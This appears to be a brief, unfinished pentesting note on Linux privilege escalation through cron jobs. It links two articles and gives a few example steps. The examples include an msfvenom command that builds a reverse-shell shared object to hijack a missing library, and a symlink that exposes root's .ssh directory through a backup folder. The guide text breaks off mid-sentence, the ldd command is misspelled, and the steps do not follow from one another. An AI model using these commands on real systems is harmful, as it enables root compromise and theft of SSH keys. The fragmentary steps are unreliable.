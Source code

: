 [Linux Privilege Escalation by Exploiting Cronjobs - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)
[Cron Jobs – Linux Privilege Escalation - Juggernaut-Sec](https://juggernaut-sec.com/cron-jobs-lpe/)


Similar vulnerabilities to [[AutoRun SysInternals]]
# Guide

1. If a compiled program is being run using a CRON job, 





# Examples

## Compiled Program

1. Run `lld` on the program

```
linux-vdso.so.1 =>  (0x00007ffd61a5c000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f717136a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7171738000)
```

2. Generate a malicious shared object file named `utils.so` and place it in the `/usr/local/lib/dev directory`.

```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali 
```

3. Link the file:

```
 ln -s /root/.ssh /tmp/backup/-root-.ssh
```